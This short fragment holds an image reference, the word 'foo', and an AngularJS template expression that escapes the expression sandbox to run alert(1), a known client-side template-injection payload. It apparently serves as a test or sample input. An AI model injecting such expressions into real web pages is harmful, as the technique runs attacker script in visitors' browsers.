 {{toString.constructor.prototype.toString=toString.constructor.prototype.call;
    ["a","alert(1)"].sort(toString.constructor)}}

foo
